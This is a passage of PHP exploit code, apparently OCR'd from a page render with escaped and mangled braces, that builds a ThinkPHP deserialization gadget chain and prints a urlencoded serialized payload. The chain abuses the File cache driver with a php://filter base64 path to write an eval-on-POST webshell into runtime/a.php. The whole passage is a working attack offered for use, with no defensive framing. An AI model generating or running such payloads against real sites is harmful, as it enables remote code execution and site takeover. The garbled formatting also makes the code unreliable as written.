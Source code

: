 ```

        function __construct($model)
        `{`
            $this-&gt;model = $model; //$this-&gt;model=&gt; think\console\Output;
        `}`
    `}`
`}`
namespace think\console`{`
    class Output`{`
        private $handle;
        protected $styles;
        function __construct($handle)
        `{`
            $this-&gt;styles = ['getAttr'];
            $this-&gt;handle =$handle; //$handle-&gt;think\session\driver\Memcached
        `}`

    `}`
`}`
namespace think\session\driver `{`
    class Memcached
    `{`
        protected $handler;

        function __construct($handle)
        `{`
            $this-&gt;handler = $handle; //$handle-&gt;think\cache\driver\File
        `}`
    `}`
`}`

namespace think\cache\driver `{`
    class File
    `{`
        protected $options=null;
        protected $tag;

        function __construct()`{`
            $this-&gt;options=[
                'expire' =&gt; 3600,
                'cache_subdir' =&gt; false,
                'prefix' =&gt; '',
                'path'  =&gt; 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../runtime/a.php',
                'data_compress' =&gt; false,
            ];
            $this-&gt;tag = 'xxx';
        `}`

    `}`
`}`

namespace `{`
    $Memcached = new think\session\driver\Memcached(new \think\cache\driver\File());
    $Output = new think\console\Output($Memcached);
    $model = new think\db\Query($Output);
    $HasOne = new think\model\relation\HasOne($model);
    $window = new think\process\pipes\Windows(new think\model\Pivot($Output,$HasOne));
    echo urlencode(serialize($window));

`}`
```
